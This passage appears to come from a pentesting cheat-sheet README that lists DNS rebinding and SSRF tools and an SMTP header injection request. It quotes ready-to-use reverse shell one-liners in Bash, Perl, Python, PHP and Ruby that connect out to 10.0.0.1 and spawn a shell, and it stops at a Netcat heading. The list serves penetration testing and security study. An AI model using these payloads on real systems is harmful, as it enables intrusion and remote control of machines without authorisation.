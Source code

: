 ```http://localhost:9001/2018-06-01/runtime/invocation/next```
https://github.com/brannondorsey/dns-rebind-toolkit
<br># DNS Rebind Toolkit is a frontend JavaScript framework for developing DNS Rebinding exploits against vulnerable hosts and services on a local area network (LAN).

https://github.com/brannondorsey/whonow
<br># A malicious DNS server for executing DNS Rebinding attacks on the fly.

https://nip.io
<br># Dead simple wildcard DNS for any IP Address

https://sslip.io
<br># sslip.io is a DNS (Domain Name System) service that, when queried with a hostname with an embedded IP address, returns that IP Address.

http://1u.ms/
<br># This is a small set of zero-configuration DNS utilities for assisting in detection and exploitation of SSRF-related vulnerabilities. It provides easy to use DNS rebinding utility, as well as a way to get resolvable resource records with any given contents.

https://github.com/Rhynorater/rebindMultiA
<br># rebindMultiA is a tool to perform a Multiple A Record rebind attack.

### SMTP Header Injection
https://www.acunetix.com/blog/articles/email-header-injection/
<br># It is common practice for web pages and web applications to implement contact forms, which in turn send email messages to the intended recipients. Most of the time, such contact forms set headers. These headers are interpreted by the email library on the web server and turned into resulting SMTP commands, which are then processed by the SMTP server.
<br>```POST /contact.php HTTP/1.1```
<br>```Host: www.example2.com```
<br>``` ```
<br>```name=Best Product\nbcc: everyone@example3.com&replyTo=blame_anna@example.com&message=Buy my product!```

### Web Shell
https://www.kali.org/tools/webshells/
<br># A collection of webshells for ASP, ASPX, CFM, JSP, Perl, and PHP servers.

### Reverse Shell
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
<br># If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell.
<br># Bash
<br>```bash -i >& /dev/tcp/10.0.0.1/8080 0>&1```

<br># PERL
<br>```perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```

<br># Python
<br>```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```

<br># PHP
<br>```php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'```

<br># Ruby
<br>```ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'```

<br># Netcat
```
